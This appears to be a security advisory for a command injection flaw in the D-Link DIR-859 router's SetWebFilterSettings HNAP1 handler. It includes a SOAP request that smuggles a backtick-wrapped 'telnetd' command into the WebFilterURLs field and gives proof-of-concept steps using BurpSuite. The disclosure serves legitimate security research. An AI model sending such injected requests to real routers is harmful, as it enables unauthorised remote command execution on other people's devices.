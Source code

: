 # DIR-859 SetWebFilterSettings CMD Injection
Vulnerability for D-Link Router

Product: D-Link DIR-859  (Refer: http://www.dlink.com.cn/home/product?id=2960)

Version: The latest firmware -- 1.06B01 (Download link: https://support.dlink.com/productinfo.aspx?m=DIR-859)

![image](3.PNG)

Vulnerability Type: Command Injection

Author: David Chen

Institution: Technology Research Institute of Legendsec at Qi'anxin Group

Vulnerability description
-------------------------
An issue was discovered on D-Link DIR-859 devices with firmware through 1.06B01. A command Injection vulnerability allows attackers to execute arbitrary OS commands via shell metacharacters in a crafted /HNAP1 request. This occurs when the SetWebFilterSettings function calls the system function with an untrusted input parameter named WebFilterURLs. Consequently, an attacker can execute any command remotely when they control this input. The details are as below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetWebFilterSettings>
 <WebFilterMethod>DENY</WebFilterMethod>
 <NumberOfEntry>2</NumberOfEntry>
 <WebFilterURLs>
  <string>www.baidu.com</string>
 <string>www.shohu.com`telnetd`</string></WebFilterURLs>
</SetWebFilterSettings>
</soap:Body>
</soap:Envelope>
```

The "WebFilterURLs" parameter is a string formed as bleow:

```xml
<string>www.baidu.com</string>
<string>www.sohu.com`telnetd`</string>
```
So if someone can POST data like this, they will execute command "telnetd" at the router.

POC
-------------------------

Step1: Attacker need to call "SetWebFilterSettings" fuction that setting "WebFilterURLs" value, so to add URLs at the web page as below:

![image](5.jpg)


Step2: To modify the "WebFilterURLs" value, Attacker need to intercpet the POST action at BurpSuite after they type "Save" button, and insert command "telnetd" to the parameter as below:

![image](1.png)

Step3: After sending POST packet as above, this action can result in a RCE that executes a "telnetd" command at router as below:

![image](4.png)

P.S. Given the vendor's security, we only provide parts of this exploit.